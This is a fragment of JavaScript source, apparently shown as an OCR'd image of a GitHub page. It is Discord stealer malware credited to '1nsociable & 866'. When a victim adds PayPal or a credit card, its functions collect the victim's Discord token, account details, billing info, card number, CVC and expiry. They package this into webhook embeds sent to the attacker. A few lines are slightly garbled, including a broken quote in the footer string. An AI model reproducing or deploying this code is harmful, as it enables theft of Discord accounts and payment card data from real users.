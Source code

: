       },
    ],
  };
  if (config.ping_on_run) content['content'] = config.ping_val;
  hooker(content);
};

const PaypalAdded = async (token) => {
  const json = await getInfo(token);
  const nitro = getNitro(json.premium_type);
  const badges = getBadges(json.flags);
  const billing = getBilling(token);
  const content = {
    username: config.embed_name,
    avatar_url: config.embed_icon,
    embeds: [
      {
        color: config.embed_color,
        fields: [
          {
            name: '**Paypal Added**',
            value: `Time to buy some nitro baby 😩`,
            inline: false,
          },
          {
            name: '**Discord Info**',
            value: `Nitro Type: **${nitro}*\nBadges: **${badges}**\nBilling: **${billing}**`,
            inline: false,
          },
          {
            name: '**Token**',
            value: `\`${token}\``,
            inline: false,
          },
        ],
        author: {
          name: json.username + '#' + json.discriminator + ' | ' + json.id,
          icon_url: `https://cdn.discordapp.com/avatars/${json.id}/${json.avatar}.webp`,
        },
        footer: {
          text: '🎉・'🎉・Discord Injection By 1nsociable & 866・https://discord.gg/stralistrarp',
        },
      },
    ],
  };
  if (config.ping_on_run) content['content'] = config.ping_val;
  hooker(content);
};

const ccAdded = async (number, cvc, expir_month, expir_year, token) => {
  const json = await getInfo(token);
  const nitro = getNitro(json.premium_type);
  const badges = getBadges(json.flags);
  const billing = await getBilling(token);
  const content = {
    username: config.embed_name,
    avatar_url: config.embed_icon,
    embeds: [
      {
        color: config.embed_color,
        fields: [
          {
            name: '**Credit Card Added**',